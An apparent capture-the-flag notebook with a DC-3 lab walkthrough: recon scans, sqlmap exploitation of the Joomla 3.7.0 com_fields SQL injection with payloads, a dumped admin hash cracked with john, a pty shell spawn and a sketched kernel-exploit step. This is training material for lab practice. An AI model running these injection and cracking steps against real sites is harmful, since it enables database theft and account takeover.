Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
DC-3
root@kali:~# nmap -A -p- 192.168.56.108Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-01 22:56 EDT
Nmap scan report for 192.168.56.108
Host is up (0.00045s latency).
Not shown: 65534 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home
MAC Address: 08:00:27:09:76:3D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
TRACEROUTE
HOP RTT ADDRESS
1 0.45 ms 192.168.56.108
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.24 seconds
root@kali:~#

root@kali:~# dirb http://192.168.56.108 /usr/share/wordlists/dirb/common.txt
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Fri Nov 1 22:59:32 2019
URL_BASE: http://192.168.56.108/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://192.168.56.108/ ----
==> DIRECTORY: http://192.168.56.108/administrator/
==> DIRECTORY: http://192.168.56.108/bin/
==> DIRECTORY: http://192.168.56.108/cache/
==> DIRECTORY: http://192.168.56.108/components/
==> DIRECTORY: http://192.168.56.108/images/
==> DIRECTORY: http://192.168.56.108/includes/
+ http://192.168.56.108/index.php (CODE:200|SIZE:7109)
==> DIRECTORY: http://192.168.56.108/language/
==> DIRECTORY: http://192.168.56.108/layouts/
==> DIRECTORY: http://192.168.56.108/libraries/
==> DIRECTORY: http://192.168.56.108/media/
==> DIRECTORY: http://192.168.56.108/modules/
==> DIRECTORY: http://192.168.56.108/plugins/
+ http://192.168.56.108/server-status (CODE:403|SIZE:302)
==> DIRECTORY: http://192.168.56.108/templates/
==> DIRECTORY: http://192.168.56.108/tmp/
root@kali:~# joomscan -u 192.168.56.108
____ _____ _____ __ __ ___ ___ __ _ _
(_ _)( _ )( _ )( \/ )/ __) / __) /__\ ( \( )
.-_)( )(_)( )(_)( ) ( \__ \( (__ /(__)\ ) (
\____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
(1337.today)
--=[OWASP JoomScan
+---++---==[Version : 0.0.7
+---++---==[Update Date : [2018/09/23]
+---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
--=[Code name : Self Challenge
@OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP
Processing http://192.168.56.108 ...
[+] FireWall Detector
[++] Firewall not detected
[+] Detecting Joomla Version
[++] Joomla 3.7.0
[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable
[+] Checking Directory Listing
[++] directory has directory listing :
http://192.168.56.108/administrator/components
http://192.168.56.108/administrator/modules
http://192.168.56.108/administrator/templates
http://192.168.56.108/images/banners
[+] Checking apache info/status files
[++] Readable info/status files are not found
[+] admin finder
[++] Admin page : http://192.168.56.108/administrator/
[+] Checking robots.txt existing
[++] robots.txt is not found
[+] Finding common backup files name
[++] Backup files are not found
[+] Finding common log files name
[++] error log is not found
[+] Checking sensitive config.php.x file
[++] Readable config files are not found

root@kali:~# searchsploit joomla 3.7
--------------------------------------- ----------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
Joomla! 3.7 - SQL Injection | exploits/php/remote/44227.php
Joomla! 3.7.0 - 'com_fields' SQL Injec | exploits/php/webapps/42033.txt
Joomla! Component ARI Quiz 3.7.4 - SQL | exploits/php/webapps/46769.txt
Joomla! Component J2Store < 3.3.7 - SQ | exploits/php/webapps/46467.txt
Joomla! Component JomEstate PRO 3.7 - | exploits/php/webapps/44117.txt
Joomla! Component Jtag Members Directo | exploits/php/webapps/43913.txt
Joomla! Component Quiz Deluxe 3.7.4 - | exploits/php/webapps/42589.txt
Joomla! Component com_realestatemanage | exploits/php/webapps/38445.txt
--------------------------------------- ----------------------------------------
Shellcodes: No Result
root@kali:~#

Used sqlmap:
sqlmap -u "http://192.168.56.108/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
GET parameter 'list[fullordering]' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 2475 HTTP(s) requests:
---
Parameter: list[fullordering] (GET)
Type: error-based
Title: MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)
Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(UPDATEXML(6753,CONCAT(0x2e,0x7176706a71,(SELECT (ELT(6753=6753,1))),0x7162717671),5132))
Type: time-based blind
Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 9479 FROM (SELECT(SLEEP(5)))JarJ)
---
[00:02:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.1
[00:02:01] [INFO] fetching database names
[00:02:02] [INFO] used SQL query returns 5 entries
[00:02:03] [INFO] retrieved: 'information_schema'
[00:02:03] [INFO] retrieved: 'joomladb'
[00:02:03] [INFO] retrieved: 'mysql'
[00:02:04] [INFO] retrieved: 'performance_schema'
[00:02:04] [INFO] retrieved: 'sys'
available databases [5]:
[*] information_schema
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys
[00:02:04] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 2432 times
[00:02:04] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.108'
[*] ending @ 00:02:04 /2019-11-02/
root@kali:~#
----> Try to dump the db and it failed,
→ So I had to get specific tables and columns
root@kali:~# sqlmap -u "http://192.168.56.108/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' --columns -p list[fullordering]
[09:41:14] [WARNING] running in a single-thread mode. This could take a while
[09:41:14] [INFO] retrieved: id
[09:41:14] [INFO] retrieved: name
[09:41:15] [INFO] retrieved: username
[09:41:19] [INFO] retrieved: email
[09:41:54] [INFO] retrieved: password
[09:47:35] [INFO] retrieved: params
Database: joomladb
Table: #__users
[6 columns]
+----------+-------------+
| Column | Type |
+----------+-------------+
| email | non-numeric |
| id | numeric |
| name | non-numeric |
| params | non-numeric |
| password | non-numeric |
| username | non-numeric |
+----------+-------------+
[09:49:03] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 2628 times
[09:49:03] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.108'
[09:49:03] [WARNING] you haven't updated sqlmap for more than 61 days!!!
[*] ending @ 09:49:03 /2019-11-02/

sqlmap -u "http://192.168.56.108/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C username,password --dump -p list[fullordering]
[09:52:33] [INFO] fetching entries of column(s) 'password, username' for table '#__users' in database 'joomladb'
[09:52:33] [INFO] used SQL query returns 1 entry
[09:52:34] [INFO] retrieved: '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsV...
[09:52:34] [INFO] retrieved: 'admin'
Database: joomladb
Table: #__users
[1 entry]
+----------+--------------------------------------------------------------+
| username | password |
+----------+--------------------------------------------------------------+
| admin | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu |
+----------+--------------------------------------------------------------+
[09:52:34] [INFO] table 'joomladb.`#__users`' dumped to CSV file '/root/.sqlmap/output/192.168.56.108/dump/joomladb/#__users.csv'
[09:52:34] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 6 times
[09:52:34] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.108'
[09:52:34] [WARNING] you haven't updated sqlmap for more than 61 days!!!
[*] ending @ 09:52:34 /2019-11-02/

Crack the admin password:
Use john to crack:
root@kali:~# john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt --rules dc3_pass
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
snoopy (?)
1g 0:00:00:02 DONE (2019-11-02 09:56) 0.4545g/s 65.45p/s 65.45c/s 65.45C/s angela..alejandro
Use the "--show" option to display all of the cracked passwords reliably
Session completed
$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu:snoopy
Login as admin:






$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@DC-3:/$
-> search for exploit kernel exploit using searchsploit and operating system version
→ execute kernel exploit to get root, using apache2 to transfer exploit between attacker and target machine
→ get the final flag